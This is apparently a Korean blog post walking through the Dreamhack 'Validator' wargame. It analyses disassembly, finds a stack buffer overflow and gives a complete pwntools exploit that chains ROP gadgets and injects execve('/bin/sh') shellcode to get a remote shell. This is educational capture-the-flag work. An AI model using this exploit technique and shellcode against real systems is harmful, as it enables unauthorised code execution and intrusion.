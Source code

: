 ```yaml
---
title:  "TIL: Reverse Engineering, ROP"
excerpt: "2022.08.25 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking
---
```


## Wargame: [Validator](https://dreamhack.io/wargame/challenges/94)

문제의 소스 코드는 주어지지 않고, **executable 파일만이 주어졌다**. disassemble한 결과는 아래와 같다.

```nasm
Dump of assembler code for function main:
   0x000000000040063a <+0>:     push   rbp
   0x000000000040063b <+1>:     mov    rbp,rsp
   0x000000000040063e <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400642 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400646 <+12>:    mov    edx,0x10
   0x000000000040064b <+17>:    mov    esi,0x0
   0x0000000000400650 <+22>:    mov    rdi,rax
   0x0000000000400653 <+25>:    call   0x400460 <memset@plt>
   0x0000000000400658 <+30>:    lea    rax,[rbp-0x80]
   0x000000000040065c <+34>:    mov    edx,0x400
   0x0000000000400661 <+39>:    mov    rsi,rax
   0x0000000000400664 <+42>:    mov    edi,0x0
   0x0000000000400669 <+47>:    call   0x400470 <read@plt>
   0x000000000040066e <+52>:    lea    rax,[rbp-0x80]
   0x0000000000400672 <+56>:    mov    esi,0x80
   0x0000000000400677 <+61>:    mov    rdi,rax
   0x000000000040067a <+64>:    call   0x400580 <validate>
   0x000000000040067f <+69>:    mov    eax,0x0
   0x0000000000400684 <+74>:    leave
   0x0000000000400685 <+75>:    ret
```

```nasm
Dump of assembler code for function validate:
   0x0000000000400580 <+0>:     push   rbp
   0x0000000000400581 <+1>:     mov    rbp,rsp
   0x0000000000400584 <+4>:     sub    rsp,0x20
   0x0000000000400588 <+8>:     mov    QWORD PTR [rbp-0x18],rdi
   0x000000000040058c <+12>:    mov    QWORD PTR [rbp-0x20],rsi
   0x0000000000400590 <+16>:    mov    DWORD PTR [rbp-0x8],0x0
   0x0000000000400597 <+23>:    mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040059e <+30>:    jmp    0x4005d3 <validate+83>
   0x00000000004005a0 <+32>:    mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004005a3 <+35>:    movsxd rdx,eax
   0x00000000004005a6 <+38>:    mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004005aa <+42>:    add    rax,rdx
   0x00000000004005ad <+45>:    movzx  ecx,BYTE PTR [rax]
   0x00000000004005b0 <+48>:    mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004005b3 <+51>:    movsxd rdx,eax
   0x00000000004005b6 <+54>:    lea    rax,[rip+0x200a83]        # 0x601040 <correct>
   0x00000000004005bd <+61>:    movzx  eax,BYTE PTR [rdx+rax*1]
   0x00000000004005c1 <+65>:    cmp    cl,al
   0x00000000004005c3 <+67>:    je     0x4005cf <validate+79>
   0x00000000004005c5 <+69>:    mov    edi,0x0
   0x00000000004005ca <+74>:    call   0x400480 <exit@plt>
   0x00000000004005cf <+79>:    add    DWORD PTR [rbp-0x4],0x1
   0x00000000004005d3 <+83>:    mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004005d6 <+86>:    cmp    eax,0x9
   0x00000000004005d9 <+89>:    jbe    0x4005a0 <validate+32>
   0x00000000004005db <+91>:    mov    DWORD PTR [rbp-0x4],0xb
   0x00000000004005e2 <+98>:    jmp    0x400628 <validate+168>
   0x00000000004005e4 <+100>:   mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004005e7 <+103>:   movsxd rdx,eax
   0x00000000004005ea <+106>:   mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004005ee <+110>:   add    rax,rdx
   0x00000000004005f1 <+113>:   movzx  eax,BYTE PTR [rax]
   0x00000000004005f4 <+116>:   movsx  eax,al
   0x00000000004005f7 <+119>:   movzx  eax,al
   0x00000000004005fa <+122>:   mov    edx,DWORD PTR [rbp-0x4]
   0x00000000004005fd <+125>:   movsxd rdx,edx
   0x0000000000400600 <+128>:   lea    rcx,[rdx+0x1]
   0x0000000000400604 <+132>:   mov    rdx,QWORD PTR [rbp-0x18]
   0x0000000000400608 <+136>:   add    rdx,rcx
   0x000000000040060b <+139>:   movzx  edx,BYTE PTR [rdx]
   0x000000000040060e <+142>:   movsx  edx,dl
   0x0000000000400611 <+145>:   add    edx,0x1
   0x0000000000400614 <+148>:   cmp    eax,edx
   0x0000000000400616 <+150>:   jne    0x40061e <validate+158>
   0x0000000000400618 <+152>:   add    DWORD PTR [rbp-0x4],0x1
   0x000000000040061c <+156>:   jmp    0x400628 <validate+168>
   0x000000000040061e <+158>:   mov    edi,0x0
   0x0000000000400623 <+163>:   call   0x400480 <exit@plt>
   0x0000000000400628 <+168>:   mov    eax,DWORD PTR [rbp-0x4]
   0x000000000040062b <+171>:   cdqe
   0x000000000040062d <+173>:   cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000400631 <+177>:   ja     0x4005e4 <validate+100>
   0x0000000000400633 <+179>:   mov    eax,0x0
   0x0000000000400638 <+184>:   leave
   0x0000000000400639 <+185>:   ret
```

### Reverse Enginnering

문제를 풀 시점에는 ida라는 도구가 있는지도 몰랐기 때문에 직접 gdb로 코드를 한 instruction씩 돌려보며 프로그램의 작동 방식을 파악했다.

- `main`은 `read(0, buf, 0x400)`을 실행하고, 입력받은 값을 대상으로 `validate`를 실행한다.
- `validate`는 입력받은 값의 첫 부분이 `DREAMHACK!`과 일치하는지 확인하고, 그 이후의 문자들의 값이 1씩 감소하는지를 확인한다. 이 검사를 0x80 번째 byte까지 실행한다. 검사에서 탈락한다면 `exit`한다.

### Vulnerability Scanning

- `checksec`
    
    <p align="center">
        <a href="/assets/images/TIL220825/Untitled.png">
            <img src="/assets/images/TIL220825/Untitled.png" width="300">
        </a>
    </p>
    
- `buf`의 size는 0x80인데 `read`를 size를 0x400으로 설정하고 실행하므로 BOF가 일어난다. 따라서 `validate`의 검사만 통과한다면 ROP를 이용해 shell을 획득할 수 있다.

### Exploit

```python
from pwn import *

p = remote("host1.dreamhack.games", 15423)
#p = process("./validator_dist")
#gdb.attach(p)
e = ELF("./validator_dist")

payload = b"DREAMHACK!"
i = 127
while len(payload) <= 0x80 :
    payload += bytes([i])
    i = i - 1

payload += b"A"*7

ret = 0x000000000040044e
pop_rdi = 0x00000000004006f3
pop_rsi_pop_r15 = 0x00000000004006f1
pop_rdx = 0x000000000040057b
memset_got = e.got["memset"]
read_plt = e.plt["read"]
read = e.symbols["read"]
bss = 0x0000000000601050

# read(0, memset_got, 0x50)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(memset_got) + p64(0) # memset_got 대신 bss를 써도 된다.
payload += p64(pop_rdx) + p64(0x50)
payload += p64(read_plt) # read_plt 대신 read를 써도 된다.

# memset() == shellcode
payload += p64(memset_got)

p.send(payload)

p.sendline("\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05")

p.interactive()
```

- `validate`의 검사를 통과하도록 payload를 구성한 뒤, ROPgadget들을 이어붙여 `read(0, memset_got, 0x50)`를 실행하고 `memset_got`를 shellcode로 overwrite한다.
- 또는 `bss`를 shellcode로 overwrite해도 된다.

### 아직 해결되지 않은 의문점들

- **Local 환경**에서는 `bss`나 `memset_got` 둘 다 execute 권한이 주어지지 않아 위 exploit code를 실행하면 Seg fault가 발생하고, shell을 획득할 수 없다.
    - Local과 remote 둘 다 동일한 executable을 실행하는 것인데 **어떻게 권한이 다르게 주어질 수 있는지**?
    - **Remote 환경에서 rwx 권한이 각 section 별로 어떻게 주어지는지를 어떻게 파악할 수 있는지?**
    - 일단 dreamhack에 [질문글](https://dreamhack.io/forum/qna/2571)을 올렸다.
- (2022-08-31 수정) 질문글에 답변이 달렸다.
    - 일단 remote와 local에서 rwx 권한이 다르게 주어지는 것은 linux kernel의 version 차이 때문이다.
    - Remote에서의 rwx 권한을 예상할 수 없으니 항상 문제를 풀 때는 주어진 docker file이나 libc를 이용해 remote와 환경을 맞춰주는 것이 최선이다..